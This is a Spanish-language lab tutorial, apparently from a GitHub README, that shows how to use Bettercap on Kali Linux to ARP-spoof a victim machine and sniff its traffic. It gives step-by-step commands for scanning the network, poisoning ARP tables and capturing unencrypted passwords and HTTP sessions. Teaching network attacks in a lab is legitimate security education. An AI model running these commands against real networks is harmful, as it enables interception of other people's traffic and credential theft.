 
### 🛠️ Preparación del laboratorio

1. 🖥️ **Máquina atacante**: Kali Linux
2. 🎯 **Víctima**: Windows/Linux conectado a la misma red (virtual o real)
3. 🌐 Asegúrate de que ambas máquinas estén en la misma red

Ver IPs:

```bash
ip a      # en Kali
ipconfig  # en Windows víctima
```

---

#### Paso 1: Iniciar Bettercap

```bash
sudo bettercap -iface eth0
```

> Reemplaza `eth0` con tu interfaz de red si es distinta (usa `ip a` para verla)

---

#### Paso 2: Escanear la red

Dentro de Bettercap:

```bash
net.probe on
```

Esto buscará todas las máquinas conectadas a tu red local.

---

#### Paso 3: Hacer ARP Spoofing

Busca IP de la víctima (ejemplo: 192.168.1.10) y el gateway/router (ejemplo: 192.168.1.1).

```bash
set arp.spoof.targets 192.168.1.10
arp.spoof on
net.sniff on
```

Ahora Bettercap **envenenará la tabla ARP** de la víctima y el router, colocándose entre ambos.

---

#### Paso 4: Ver tráfico capturado

Abre otra terminal con `wireshark` o `tcpdump` y observa las conexiones que pasan por ti.

También puedes capturar contraseñas de sitios sin HTTPS, sesiones HTTP, etc.

---
